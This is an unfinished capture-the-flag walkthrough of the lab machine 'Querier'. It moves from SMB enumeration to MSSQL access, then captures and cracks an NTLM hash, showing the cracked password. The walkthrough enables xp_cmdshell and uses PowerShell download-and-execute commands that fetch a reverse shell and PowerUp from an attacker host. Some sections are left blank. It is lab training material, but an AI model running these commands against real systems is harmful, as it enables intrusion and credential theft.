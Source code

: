 

----
Share via ## Techniques

## Tools
* nmap

## Setup

1) Add `querier.htb` to the hosts file so we can refer to the host by name
   ```bash
   $ echo "10.10.10.125 querier.htb" >> /etc/hosts
   ```

## Port Scan

1) Scan for ports and services
   ```bash
   # Use nmap to find available TCP ports quickly
   $ querier_tcp_ports=$( \
       nmap querier.htb \
            -p- \
            --min-rate=1000 \
            --max-retries=2 \
            -T4 \
            -Pn \
            -oA nmap-tcp-allports \
       | grep ^[0-9] \
       | cut -d '/' -f 1 \
       | tr '\n' ',' \
       | sed s/,$// \
     )
   
   # Scan found ports for services
   $ nmap querier.htb \
          -p ${querier_tcp_ports} \
          -sV \
          -sC \
          -T4 \
          -Pn \
          -oA nmap-tcp-foundports
   ```
   
1) Check found ports against the Vulners db/nse script
   ```bash
   $ nmap help.htb \
          -p ${querier_tcp_ports} \
          --script=vulners \
          -Pn \
          -A \
          -T4 \
          -oA nmap-tcp-foundports-vulners
   ```

### ________

1) Enumerate Web
   ```bash
   $ 
   ```
1) 

   ```bash
   $ smbclient -N -L //querier.htb/ | tee smblient-querier.htb.log

      Sharename       Type      Comment
      ---------       ----      -------
      ADMIN$          Disk      Remote Admin
      C$              Disk      Default share
      IPC$            IPC       Remote IPC
      Reports         Disk
   ```
   
   OR You can use smbmap to accomplish the same thing:
   ```bash
   $ smbmap -H 10.10.10.125 -u anonymous -d localhost | tee smbmap-querier.htb.log
   [+] Finding open SMB ports....
   [+] Guest SMB session established on 10.10.10.125...
   [+] IP: 10.10.10.125:445	Name: querier.htb                                       
      Disk                                                  	Permissions
      ----                                                  	-----------
      ADMIN$                                            	NO ACCESS
      C$                                                	NO ACCESS
      IPC$                                              	READ ONLY
      Reports                                           	READ ONLY
   ```

   ```bash
   $ smbclient -N //querier.htb/Reports
   Try "help" to get a list of possible commands.
   smb: \> ls
     .                                   D        0  Mon Jan 28 15:23:48 2019
     ..                                  D        0  Mon Jan 28 15:23:48 2019
     Currency Volume Report.xlsm         A    12229  Sun Jan 27 14:21:34 2019

         6469119 blocks of size 4096. 1595576 blocks available

   smb: \> get "Currency Volume Report.xlsm"
   getting file \Currency Volume Report.xlsm of size 12229 as Currency Volume Report.xlsm (28.8 KiloBytes/sec) (average 28.8 KiloBytes/sec)

   smb: \> exit
   ```
   
   ```bash
   $ olevba Currency\ Volume\ Report.xlsm
   ```


   Let's try the reporting creds against the MSSQL service
   ```bash
   kali $ mssqlclient.py -windows-auth reporting@querier.htb
   
   SQL> xp_dirtree "\\10.10.14.81\FooBar\"
   ```
   
   ```bash
   kali$ responder -I tun0
   ```
   
   Copy the value of the `NTLMv2-SSP Hash` field and paste it into a new file named `hash-QUERIER_mssql-svc.ntlmv2`
   ```bash
   $ vim hash-QUERIER_mssql-svc.ntlmv2
   ```
   
   ```bash
   $ hashcat hash-QUERIER_mssql-svc.ntlmv2 \
             -m 5600 \
             --force \
             /usr/share/wordlists/rockyou.txt
   ```
   
   ```bash
   kali$ sqlite3 $( locate Responder.db )
   
   sqlite> select type,hostname,fullhash from responder;
   ```

   ```bash
   kali$ smbmap -u mssql-svc -p corporate568 -d querier -H querier.htb
   [+] Finding open SMB ports....
   [+] User SMB session establishd on querier.htb...
   [+] IP: querier.htb:445	Name: querier.htb                                       
   Disk                                                  	Permissions
   ----                                                  	-----------
   ADMIN$                                            	NO ACCESS
   C$                                                	NO ACCESS
   IPC$                                              	READ ONLY
   Reports                                           	READ ONLY

   ```


   Now try `mssqlclient.py` again with the mssql-svc accoutn credentials:
   ```bash
   $ mssqlclient.py -windows-auth mssql-svc@10.10.10.125
   ```




   ```bash
   $ locate Invoke-PowerShellTcp.ps1
   /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1

   $ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./reverse.ps1
   ```

   ```bash
   # Start a local web server so we can download files from kali on the target
   kali$ python -m SimpleHTTPServer 80
   ```

   ```bash
   SQL> enable_xp_cmdshell
   SQL> xp_cmdshell powershell IEX(New-Object Net.WebClient).downloadstring(\"http://10.10.14.81/reverse.ps1\")
   ```

   ```bash
   # Use readline wrap so our up key history will work
   kali$ rlwrap nc -nvlp 4444
   ```
   
   ```bash
   PS C:\Windows\system32> systeminfo
   
   PS C:\Windows\system32> whoami /priv
   ```

   ```bash
   kali$ locate PowerUp.ps1
   /root/powershell/Empire/data/module_source/privesc/PowerUp.ps1
   
   kali$ cp /root/powershell/Empire/data/module_source/privesc/PowerUp.ps1 .
   ```

   ```bash
   PS C:\Windows\systen32> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.81/PowerUp.ps1')
   
   PS C:\Windows\system32> Invoke-AllChecks
   ```